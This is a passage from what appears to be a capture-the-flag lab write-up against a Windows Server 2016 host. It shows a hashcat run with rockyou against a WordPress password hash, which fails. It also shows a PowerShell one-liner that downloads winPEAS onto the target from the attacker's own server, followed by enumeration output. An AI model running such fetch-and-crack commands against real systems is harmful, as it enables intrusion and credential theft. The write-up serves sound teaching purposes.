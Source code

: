 With a help of [WP Sec resource](https://blog.wpsec.com/cracking-wordpress-passwords-with-hashcat/)  I'm trying to guess the password stored in `pass.hash` using `rockyou` wordlist:

```sh
$ hashcat -O -m 400 -a 0 -o pass.txt pass.hash /usr/wl/rockyou.txt
```

Meanwhile, I'm dumping data from other tables, but nothing useful come up.

In a gesture of resignation I'm downloading the [winPEAS](/linpeas) from my Python simple server.

```
(New-Object System.Net.WebClient).DownloadFile('http://10.10.XX.XXX/pea3r3efr.exe','pea3r3efr.exe');
```

At that time `hashcat` finished its work and because he didn't manage to guess it, with high probability this is a dead end.

```txt
Session..........: hashcat
Status...........: Exhausted
Hash.Name........: phpass
Hash.Target......: $P$Bgz58wVx7mKpwW3AcNv6VNstbMeyQ30
Time.Started.....: Sat Jun  5 20:37:23 2021 (10 mins, 25 secs)
Time.Estimated...: Sat Jun  5 20:47:48 2021 (0 secs)
Guess.Base.......: File (/usr/wl/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    17321 H/s (4.31ms) @ Accel:1024 Loops:256 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests
Progress.........: 14344385/14344385 (100.00%)
```

[Back to top](#contents) ⤴

# Vulnerability scanning

Some of the more interesting findings from `winPEAS`

## Host details

```
Hostname: Shield
    Domain Name: MEGACORP.LOCAL
    ProductName: Windows Server 2016 Standard
    EditionID: ServerStandard
    ReleaseId: 1607
    BuildBranch: rs1_release
    CurrentMajorVersionNumber: 10
    CurrentVersion: 6.3
    Architecture: AMD64
    ProcessorCount: 2
    SystemLang: en-US
    KeyboardLang: English (United States)
    TimeZone: (UTC-08:00) Pacific Time (US & Canada)
    IsVirtualMachine: True
    Current Time: 6/2/2021 4:09:48 PM
    HighIntegrity: False
    PartOfDomain: True
    Hotfixes:

```
